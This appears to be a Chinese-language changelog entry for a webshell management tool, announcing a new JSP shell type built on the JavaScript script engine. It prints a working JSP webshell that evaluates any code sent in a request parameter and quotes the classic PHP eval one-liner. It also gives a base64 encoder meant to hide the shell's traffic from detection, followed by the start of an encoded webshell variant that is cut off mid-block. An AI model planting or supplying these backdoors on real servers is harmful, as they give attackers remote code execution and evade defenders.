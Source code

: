 ## 2021/06/19 `v(2.1.13)`

### 核心

* 新增 JSPJS Shell 类型 (Author: @yzddMr6)

> 基于 js 引擎的 jsp 一句话类型, jdk >= 6
> 相较于 jsp defineClass 实现，该方式的数据包大小明显小了不少

设计思路请参考: https://xz.aliyun.com/t/9715

> 值得一提的是，JSPJS 类型可以通过「迂回」的方式去「直接使用」原来的 JSP 类型 WebShell, 留给大家去探索了

**请耐心看完下面的 Note**

目前该类型默认生成的 WebShell 如下:

```jsp
<%
  try {
    javax.script.ScriptEngine engine = new javax.script.ScriptEngineManager().getEngineByName("js");
    engine.put("request", request);
    engine.put("response", response);
    engine.eval(request.getParameter("ant"));
  } catch (Exception e) {
    out.println("Error:// "+e.toString());
  }
%>
```

在流量层上和 PHP 最基础的WebShell `<?php eval($_POST['ant']);?>` 一样具有明显特征，不建议使用, 请配合自定义编码器进行:

eg: b64pass 编码器

```js
'use strict';

module.exports = (pwd, data) => {
  data[pwd] = Buffer.from(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```

对应 WebShell 如下:

```jsp
<%!
public byte[] base64Decode(String str) throws Exception {
  Class base64;
  byte[] value = null;
  try {
    base64=Class.forName("sun.misc.BASE64Decoder");
    Object decoder = base64.newInstance();
    value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] {String.class }).invoke(decoder, new Object[] { str });
  } catch (Exception e) {
    try {
      base64=Class.forName("java.util.Base64");
      Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
      value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { str });
    } catch (Exception ee) {}
  }
  return value;
}
%>
<%
```

[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino